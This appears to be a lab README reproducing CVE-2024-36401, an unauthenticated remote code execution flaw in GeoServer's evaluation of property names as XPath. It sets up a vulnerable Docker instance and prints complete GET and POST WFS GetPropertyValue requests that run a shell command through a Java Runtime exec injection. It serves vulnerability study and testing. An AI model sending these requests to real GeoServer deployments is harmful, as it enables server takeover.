



# GeoServer Unauthenticated Remote Code Execution in Evaluating Property Name Expressions (CVE-2024-36401)

[中文版本(Chinese version)](README.zh-cn.md)

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the GeoServer version prior to 2.25.1, 2.24.3 and 2.23.5 of GeoServer, multiple OGC request parameters allow Remote Code Execution (RCE) by unauthenticated users through specially crafted input against a default GeoServer installation due to unsafely evaluating property names as XPath expressions.

References:

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv>
- <https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w>
- <https://tttang.com/archive/1771/>
- <https://github.com/Warxim/CVE-2022-41852>

## Vulnerable environment

Execute following command to start a GeoServer server 2.23.2:

```
docker compose up -d
```

After server is started, you will see the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

In the official [vulnerability announcement](https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv), you can find the following content:

> No public PoC is provided but this vulnerability has been confirmed to be exploitable through WFS GetFeature, WFS GetPropertyValue, WMS GetMap, WMS GetFeatureInfo, WMS GetLegendGraphic and WPS Execute requests.

For example, I gonna to use `GetPropertyValue` to execute evil xpath expression. refer to [official document](https://github.com/geoserver/geoserver/blob/2.23.2/doc/en/user/source/services/wfs/reference.rst), the GET method POC is:

```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

The POST method POC is:

```
POST /geoserver/wfs HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```

The familiar `java.lang.ClassCastException` error:



As you can see, `touch /tmp/success1` and `touch /tmp/success2` are both executed successfully.



It is important to mention that `typeNames` parameter must exist. You can find all the available Types on the web server without login:


